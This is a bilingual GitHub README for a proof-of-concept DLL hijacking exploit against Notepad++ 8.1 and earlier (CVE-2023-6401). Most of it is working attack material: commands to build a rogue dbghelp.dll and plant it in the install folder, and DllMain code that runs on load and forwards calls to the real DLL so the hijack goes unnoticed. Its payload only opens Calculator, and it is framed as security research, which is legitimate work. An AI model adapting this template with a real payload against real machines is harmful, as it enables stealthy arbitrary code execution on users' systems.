

# CVE-2023-6401 · DLL Hijacking Proof-of-Concept

[](LICENSE)
[](https://www.microsoft.com/windows)

[English](#english) | [中文](#中文)

---

## 中文

> ⚠️ **重要聲明：僅供安全研究和教育目的使用**

NotePad++ ≤ 8.1 DLL劫持漏洞的概念驗證。通過在應用程式目錄放置惡意 `dbghelp.dll` 來執行任意程式碼。

### 快速開始

```bash
# 下載專案
git clone https://github.com/mekitoci/CVE-2023-6401.git

# 進入專案目錄
cd CVE-2023-6401-main

# 編譯DLL
# gcc -shared -o dbghelp.dll dbghelp.c -Wall -Wl,--subsystem,windows

# 部署到NotePad++目錄
copy dbghelp.dll "C:\Program Files\Notepad++\"

# 執行測試
"C:\Program Files\Notepad++\notepad++.exe"

# 立即清理
del "C:\Program Files\Notepad++\dbghelp.dll"
```

**預期結果：** 計算器彈出 + 訊息框顯示 + NotePad++正常啟動



### 漏洞詳情

| 項目 | 詳情 |
|------|------|
| **CVE編號** | CVE-2023-6401 |
| **影響版本** | NotePad++ ≤ 8.1 |
| **漏洞類型** | DLL劫持 / 搜尋路徑劫持 |
| **影響** | 執行任意程式碼 |
| **前提條件** | 應用程式目錄寫入權限 |

#### 原理

Windows按以下順序載入DLL：
1. **應用程式目錄**（最高優先級）
2. System32目錄
3. Windows目錄
4. 當前目錄
5. PATH環境變數

NotePad++啟動時會載入 `dbghelp.dll`，通過在應用程式目錄放置同名惡意DLL，可在系統DLL載入前執行程式碼。

### 技術實現

#### 核心代碼

```c
BOOL APIENTRY DllMain(HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserved)
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        // 執行惡意程式碼
        WinExec("calc.exe", SW_SHOW);
        MessageBoxA(NULL, "CVE-2023-6401 Crack", "Alert", MB_OK);

        // 載入真實DLL並轉發API調用
        char systemPath[MAX_PATH];
        GetSystemDirectoryA(systemPath, MAX_PATH);
        strcat(systemPath, "\\dbghelp.dll");
        realDbghelp = LoadLibraryA(systemPath);
        
        if (realDbghelp)
            realImageNtHeader = (pImageNtHeader)GetProcAddress(realDbghelp, "ImageNtHeader");
        break;
    }
    return TRUE;
}
```

#### 關鍵特點

- **搜尋順序劫持**：利用Windows DLL搜尋機制
- **API轉發**：載入真實DLL並轉發函式調用，保持應用程式正常運行
- **隱蔽性**：用戶察覺不到異常

### 編譯選項

#### MinGW (推薦)
```cmd
gcc -shared -o dbghelp.dll dbghelp.c -Wall -Wl,--subsystem,windows
```

### 清理

```cmd
# 移除惡意DLL
del "C:\Program Files\Notepad++\dbghelp.dll"

# 確認移除
dir "C:\Program Files\Notepad++\dbghelp.dll" 2>nul || echo "清理完成"
```

### 參考資料

- [CVE-2023-6401](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-6401)
- [Microsoft DLL搜尋順序](https://learn.microsoft.com/windows/win32/dlls/dynamic-link-library-search-order)
- [MITRE ATT&CK T1574.001](https://attack.mitre.org/techniques/T1574/001/)

### 免責聲明

本專案僅供教育和安全研究使用。使用者需對遵守適用法律法規承擔全部責任。

---

## English

> ⚠️ **IMPORTANT DISCLAIMER: For security research and educational purposes only**

Proof-of-concept for NotePad++ ≤ 8.1 DLL hijacking vulnerability. Execute arbitrary code by placing a malicious `dbghelp.dll` in the application directory.

### Quick Start

```bash
# Clone the project
git clone https://github.com/mekitoci/CVE-2023-6401.git

# Navigate to project directory
cd CVE-2023-6401-main

# gcc -shared -o dbghelp.dll dbghelp.c -Wall -Wl,--subsystem,windows

# Deploy to NotePad++ directory
copy dbghelp.dll "C:\Program Files\Notepad++\"

# Execute test
"C:\Program Files\Notepad++\notepad++.exe"

# Immediate cleanup
del "C:\Program Files\Notepad++\dbghelp.dll"
```

**Expected Result:** Calculator pops up + Message box displays + NotePad++ starts normally


### Vulnerability Details

| Item | Details |
|------|---------|
| **CVE Number** | CVE-2023-6401 |
| **Affected Versions** | NotePad++ ≤ 8.1 |
| **Vulnerability Type** | DLL Hijacking / Search Order Hijacking |
| **Impact** | Arbitrary Code Execution |
| **Prerequisites** | Write permission to application directory |

#### Mechanism

Windows loads DLLs in the following order:
1. **Application directory** (highest priority)
2. System32 directory
3. Windows directory
4. Current directory
5. PATH environment variable

NotePad++ loads `dbghelp.dll` on startup. By placing a malicious DLL with the same name in the application directory, code can be executed before the system DLL is loaded.

### Technical Implementation

#### Core Code

```c
BOOL APIENTRY DllMain(HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserved)
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        // Execute malicious code
        WinExec("calc.exe", SW_SHOW);
        MessageBoxA(NULL, "CVE-2023-6401 Crack", "Alert", MB_OK);

        // Load real DLL and forward API calls
        char systemPath[MAX_PATH];
        GetSystemDirectoryA(systemPath, MAX_PATH);
        strcat(systemPath, "\\dbghelp.dll");
        realDbghelp = LoadLibraryA(systemPath);
        
        if (realDbghelp)
            realImageNtHeader = (pImageNtHeader)GetProcAddress(realDbghelp, "ImageNtHeader");
        break;
    }
    return TRUE;
}
```

#### Key Features

- **Search Order Hijacking**: Exploits Windows DLL search mechanism
- **API Forwarding**: Loads real DLL and forwards function calls to maintain normal application operation
- **Stealth**: Users notice no abnormalities

### Compilation Options

#### MinGW (Recommended)
```cmd
gcc -shared -o dbghelp.dll dbghelp.c -Wall -Wl,--subsystem,windows
```

### Cleanup

```cmd
# Remove malicious DLL
del "C:\Program Files\Notepad++\dbghelp.dll"

# Confirm removal
dir "C:\Program Files\Notepad++\dbghelp.dll" 2>nul || echo "Cleanup completed"
```

### References

- [CVE-2023-6401](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-6401)
- [Microsoft DLL Search Order](https://learn.microsoft.com/windows/win32/dlls/dynamic-link-library-search-order)
- [MITRE ATT&CK T1574.001](https://attack.mitre.org/techniques/T1574/001/)

### Disclaimer

This project is for educational and security research purposes only. Users are solely responsible for compliance with applicable laws and regulations.

